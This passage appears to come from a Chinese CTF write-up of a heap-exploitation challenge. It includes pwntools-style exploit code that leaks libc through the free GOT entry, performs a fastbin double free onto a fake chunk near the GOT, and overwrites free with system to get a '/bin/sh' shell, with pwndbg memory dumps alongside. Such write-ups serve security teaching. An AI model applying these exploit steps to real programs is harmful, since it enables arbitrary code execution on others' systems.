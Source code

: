 我的做法是向`name`中写`free`的`got`表，然后打印出`libc`中`free`的地址：

```python
add(0x28,'AAAAAAAA',0x58,'aaaaaaaa') #0
add(0x28,'BBBBBBBB',0x58,'bbbbbbbb') #1
# leak libc
dlt(0)
dlt(1)
add(0x18,p64(elf.got['free']),0x18,'dddddddd') #3
free = uu64(show(0))
```

### Double Free

题目有限制，只能添加10个SCP，因此要节约使用，刚刚泄漏libc时创建的两个节点可以重复使用，uaf只是在`0x20`的`fastbin`上做手脚，其余的`fastbin`不受影响。

虽然创建一次会连续`malloc`三次，但是只要这三次`malloc`出的`chunk`大小不一样，就不会互相影响。

这里有一点需要注意，要想成功`malloc`到`free`的`GOT`表，必须要先伪造`chunk`的`size`，通过调试，顺着`GOT`表中`free`的地址往前找，在第`14`字节找到了`0x60`，因此往这里可以分配`0x50-0x60`的chunk

```c
pwndbg> got
[0x603018] free@GLIBC_2.2.5 -> 0x7ff53a3dd4f0 (free) ◂— push   r13

pwndbg> x/8xg 0x603018-0x10-14
0x602ffa:	0x2e28000000000000	0xa168000000000060 ◂— size
0x60300a:	0xae1000007ff53a94	0xd4f000007ff53a73
0x60301a:	0x869000007ff53a3d	0x078600007ff53a3c
0x60302a:	0xf6b0000000000040	0xe80000007ff53a3c
```

具体的操作如下：

```python
add(0x28,'AAAAAAAA',0x58,'aaaaaaaa') #0
add(0x28,'BBBBBBBB',0x58,'bbbbbbbb') #1
add(0x28,'CCCCCCCC',0x58,'cccccccc') #2

# leak libc
dlt(0)
dlt(1)
add(0x18,p64(elf.got['free']),0x18,'dddddddd') #3
free = uu64(show(0))
dlt(3)

# double free
dlt(0)
add(0x28,p64(0xdeadbeef),0x58,p64(elf.got['free']-16-14)) #4
add(0x28,p64(0xdeadbeef),0x58,'eeeeeeee') #5
add(0x28,p64(0xdeadbeef),0x58,'ffffffff') #6

# overwrite free got
add(0x28,'/bin/sh\0',0x58,'a'*14+p64(system)) #7
```
